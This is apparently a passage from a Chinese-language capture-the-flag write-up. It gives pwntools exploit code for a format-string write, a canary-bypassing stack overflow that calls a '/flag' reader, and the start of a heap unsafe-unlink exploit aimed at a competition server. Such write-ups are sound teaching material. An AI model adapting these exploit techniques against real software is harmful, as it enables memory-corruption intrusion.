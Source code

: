 ```python
qword_zero(base + 0x2030D0)
qword_one(base + 0x2030C0)
qword_one(base + 0x2030C4)
payload = "%7$p%7$n"
payload += p64(base + 0x2030D4)
sh.send(payload + "\n")

# qword_one(base + 0x2030D4)
# qword_zero(base + 0x2030C8)
# qword_zero(base + 0x2030CC)
# qword_zero(base + 0x2030D8)
# qword_zero(base + 0x2030DC)
# 最后发现这些好像本来就是0。。。所以到这里已经退出循环了。。。
```

最后进入潘多拉魔盒，有个很明显的栈溢出，然后`sub_9AA`有个`"/flag"`字符串的引用，所以试着调用它。。。

```python
sh.recvuntil("Tell me your name:")
sh.send("2019\n")
sh.recvuntil("me what do you want?\n")
sh.send(34 * "A" + p64(canary) + p64(0) + p64(base + 0x9AA) + "\n")

sh.interactive()
```

然后就有flag了。。。

至于canary怎么leak不说了，格式化字符串leak个canary还不简单。。。

讲道理这题可以getshell，毕竟libc可以找出来，也就是返回到libc做几次rop的事情，也不会难多少。。。

## heap

很基础的通过溢出改写`PREV_USE`并伪造`prev_size`来unlink，让一个全局变量指向自己前面的地址实现任意读写，套路题不说了。。。详情可以看 [https://github.com/Mem2019/Mem2019.github.io/blob/master/kxctf/20171004.md](https://github.com/Mem2019/Mem2019.github.io/blob/master/kxctf/20171004.md) ，觉得我博客太丑或者我写的太烂的话呢可以去看雪看其他大神的文章，或者看shellphish的[https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c](https://github.com/shellphish/how2heap/blob/master/unsafe_unlink.c) 。。。

要注意的一点是，这道题`add`的时候用了一个`tmp_buffer`，然后会通过`strcpy`拷贝到真正的`buffer`，所以最开始直接把缓冲区放满会污染`top_chunk`，还有就是`unlink`的时候后面那个chunk最好要是在用的状态，不然会跟后面的也consolidate，嘛不过好像问题不大。。。

exp如下

```python
from pwn import *
FREE_GOT = 0x602018

g_local=False
e = ELF('./libc-2.23.so')
#context.log_level='debug'
if g_local:
	sh = process('./offbyone', env={'LD_PRELOAD':'./libc-2.23.so'})
	#gdb.attach(sh)
else:
	sh = remote("pwn.suctf.asuri.org", 20004)

def get_addr(idx):
	return 0x6020C0 + idx * 8


def creat(length, data):
	assert length > 0x7F and length <= 256
	sh.send("1\x00")
	sh.recvuntil("input len\n")
	sh.send(str(length) + "\x00")
```
